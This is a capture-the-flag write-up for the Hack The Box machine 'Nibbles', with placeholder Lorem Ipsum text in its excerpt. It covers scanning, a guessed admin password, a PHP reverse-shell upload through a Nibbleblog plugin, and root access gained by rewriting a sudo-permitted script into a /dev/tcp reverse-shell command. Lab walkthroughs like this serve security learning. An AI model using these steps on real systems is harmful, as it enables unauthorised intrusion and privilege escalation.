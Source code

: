 ```yaml
---
layout: single
title: Nibbles - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-22
classes: wide
header:
  teaser: /assets/images/htb-writeup-nibbles/nibbles_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-nibbles/nibbles_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/nibbles]# nmap -Pn -n -sCV 10.10.10.75 --open                                                                      (master✱)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
      -

    NIKTO:
     Allowed HTTP Methods: GET, HEAD, POST, OPTIONS


2. Visiting the webpage we find '/nibbleblog/ directory. Nothing interesting here!' embedded as a comment in the code.

    DIRB:
      ---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
      + http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
      + http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:2987)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
      + http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

    * On /nibbleblog/content/private/users.xml we find that the user ADMIN exists, however no password.
    * Uploaded files are stored at: http://10.10.10.75/nibbleblog/content/public/upload/
    * Trying SQLi on /nibbleblog/admin.php blacklists us : 'Nibbleblog security error - Blacklist protection'
    * Generated a wordlist with cewl and tried is as passwords for user ADMIN, but no success

    Randomly trying admin:nibbles gave access however!


3. Browse to 'http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image', press "Configure" on the
   'My image'-plugin. Browse for a webshell, or php-reverse and upload it.

   Go to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/ and press 'image.php', this will return your rev-shell.

   [root:/git/htb/nibbles]# nc -lvnp 4488                                                                                            (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 45484
    Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
     10:58:49 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
      nibbler

    nibbler@Nibbles:/home/nibbler$ cat user.txt
      405046e8f3fde67cc37f19a94e643a3c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As always, start by running 'sudo -l' to see if we have an easy path to root.

    nibbler@Nibbles:/home/nibbler$ sudo -l
      Matching Defaults entries for nibbler on Nibbles:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User nibbler may run the following commands on Nibbles:
          (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


   The specifiec file and path does not exist, however we do find 'personal.zip' in our home.
    nibbler@Nibbles:/home/nibbler$ ls -al
      drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
      drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
      -r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip

   Unzip the file:
    nibbler@Nibbles:/home/nibbler$ unzip personal.zip
      unzip personal.zip
      Archive:  personal.zip
         creating: personal/
         creating: personal/stuff/
        inflating: personal/stuff/monitor.sh


2. Now we have sudo privileges to a bash-script that we can read, write and execute. We have two paths to root here:

  a) Modify the script to send a reverse shell back as root.
  b) Delete the script and create a new, with the same name (monitor.sh), to execute root commands for us (i.e. send rev shell)

  For me, I think option B is easiest.


  nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.10/4499 0>&1

  nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
  nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo /home/nibbler/personal/stuff/monitor.sh

  [root:/git/htb/nibbles]# nc -lvnp 4499                                                                                            (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 45302
    bash: cannot set terminal process group (1324): Inappropriate ioctl for device
    bash: no job control in this shell

  root@Nibbles:/home/nibbler/personal/stuff# whoami
    root
  root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
    0a39fa7459fb58a9f4e22cdaeb6b52c1


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Nibbleblog RCE:
  https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/
